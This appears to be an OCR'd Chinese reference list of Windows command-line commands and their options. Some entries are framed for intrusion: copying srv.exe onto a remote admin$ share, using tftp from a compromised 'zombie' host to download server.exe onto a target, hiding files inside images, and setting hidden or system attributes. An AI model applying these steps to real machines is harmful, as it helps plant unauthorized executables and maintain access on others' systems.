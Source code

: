 　　telnet ip 端口 远和登陆服务器,默认端口为23

　　open ip 连接到IP（属telnet登陆后的命令）

　　telnet 在本机上直接键入telnet 将进入本机的telnet

　　copy 路径文件名1　路径文件名2 /y 复制文件1到指定的目录为文件2，用参数/y就同时取消确认你要改写一份现存目录文件

　　copy c:srv.exe ipadmin$ 复制本地c:srv.exe到对方的admin下

　　copy 1st.jpg/b+2st.txt/a 3st.jpg 将2st.txt的内容藏身到1st.jpg中生成3st.jpg新的文件，注：2st.txt文件头要空三排，参数：/b指二进制文件，/a指ASCLL格式文件

　　copy ipadmin$svv.exe c: 或:copyipadmin$*.* 复制对方admini$共享下的srv.exe文件（所有文件）至本地C：

　　xcopy 要复制的文件或目录树　目标地址目录名 复制文件和目录树，用参数/Y将不提示覆盖相同文件

　　用参数/e才可连目录下的子目录一起复制到目标地址下。

　　tftp -i 自己IP(用肉机作跳板时这用肉机IP) get server.exec:server.exe  登陆后，将“IP”的server.exe下载到目标主机c:server.exe 参数：-i指以二进制模式传送，如传送exe文件时用，如不加-i  则以ASCII模式（传送文本文件模式）进行传送

　　tftp -i 对方IP　put c:server.exe 登陆后，上传本地c:server.exe至主机

　　ftp ip 端口 用于上传文件至服务器或进行文件操作，默认端口为21。bin指用二进制方式传送（可执行文件进）；默认为ASCII格式传送(文本文件时)

　　route print 显示出IP路由，将主要显示网络地址Network addres，子网掩码Netmask，网关地址Gateway addres，接口地址Interface

　　arp 查看和处理ARP缓存，ARP是名字解析的意思，负责把一个IP解析成一个物理性的MAC地址。arp -a将显示出全部信息

　　start 程序名或命令 /max 或/min 新开一个新窗口并最大化（最小化）运行某程序或命令

　　mem 查看cpu使用情况

　　attrib 文件名(目录名) 查看某文件（目录）的属性

　　attrib 文件名 -A -R -S -H 或 +A +R +S +H 去掉(添加)某文件的 存档，只读，系统，隐藏 属性；用+则是添加为某属性

　　dir 查看文件，参数：/Q显示文件及目录属系统哪个用户，/T:C显示文件创建时间，/T:A显示文件上次被访问时间，/T:W上次被修改时间

　　date /t 、 time /t 使用此参数即“DATE/T”、“TIME/T”将只显示当前日期和时间，而不必输入新日期和时间

　　set 指定环境变量名称=要指派给变量的字符 设置环境变量

　　set 显示当前所有的环境变量

　　set p(或其它字符) 显示出当前以字符p(或其它字符)开头的所有环境变量

　　pause 暂停批处理程序，并显示出：请按任意键继续....

　　if 在批处理程序中执行条件处理（更多说明见if命令及变量）

　　goto 标签 将cmd.exe导向到批处理程序中带标签的行（标签必须单独一行，且以冒号打头，例如：“：start”标签）

　　call 路径批处理文件名 从批处理程序中调用另一个批处理程序 （更多说明见call /?）

　　for 对一组文件中的每一个文件执行某个特定命令（更多说明见for命令及变量）

　　echo on或off 打开或关闭echo，仅用echo不加参数则显示当前echo设置

　　echo 信息 在屏幕上显示出信息

　　echo 信息 >> pass.txt 将"信息"保存到pass.txt文件中

　　findstr "Hello" aa.txt 在aa.txt文件中寻找字符串hello
